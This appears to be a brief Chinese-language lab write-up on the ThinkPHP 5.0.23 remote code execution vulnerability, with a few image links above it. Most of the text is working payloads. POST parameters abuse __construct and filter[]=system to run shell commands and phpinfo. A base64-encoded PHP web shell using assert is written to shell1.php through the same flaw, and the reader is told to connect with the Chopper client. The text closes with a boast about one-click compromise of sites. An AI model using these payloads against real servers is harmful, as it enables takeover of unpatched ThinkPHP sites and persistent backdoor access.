





# Thinkphp5.0.23 远程代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

低于5.0.23版本都存在远程代码执行

## write up

首先打开靶场

利用POC来拿flag

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls /tmp`

使用phpinfo函数验证来获取敏感信息

`_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1`

如果要上传 shell ,传 shell 的时候，要 把 eval 替换成 assert  并进行base64转义。对

`aaa<?php @assert($_POST['xss']);?>bbb` 进行base64转义，

转义完成后的POC

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo -n YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell1.php
`

成功访问,说明上传成功。用菜刀去连接。

接上来上大招，一键日站。

